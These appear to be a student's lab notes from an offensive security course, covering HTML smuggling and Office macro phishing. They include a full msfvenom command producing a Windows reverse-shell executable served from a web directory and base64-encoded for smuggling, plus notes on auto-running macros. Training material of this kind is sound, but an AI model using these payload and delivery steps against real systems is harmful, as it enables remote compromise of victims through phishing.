 # HTML smuggling

remember to use staged payload instead of non staged ones in meterpreter.

finally used 

```bash
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.6.12 LPORT=4444 -f exe -o /var/www/html/msfstaged.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/msfstaged.exe
                                                                                                                                             
┌──(kali㉿kali)-[~/codeplay/pen300/book/chapter3]
└─$ base64 /var/www/html/msfstaged.exe

```
check the code : using new_html.html

### 3.1.3.1 Exercises
1. Repeat the HTML smuggling to trigger a download of a Meterpreter payload in a file format 
of your choosing.

2. Modify the smuggling code to also use the window.navigator.msSaveBlob62,63 method to 
make the technique work with Microsoft Edge as well.

The explot works in msedge also without any change.

# phishing with microsoft office

installing microsoft office 2016 from : `https://office-2016.fileplanet.com/download` - not verified.

### 3.2.1.1 Exercise
1. Install Microsoft Office on your Windows 10 client VM
done

## introduction to vba

creating a macro - view > macros

Leveraging existing methods like Document_Open() and AutoOpen()


```vb
Sub ss()
'
' ss Macro
'
'

Dim myLong As Long

myLong = 1

If myLong < 5 Then
    MsgBox ("True")
Else
    MsgBox ("False")
End If

```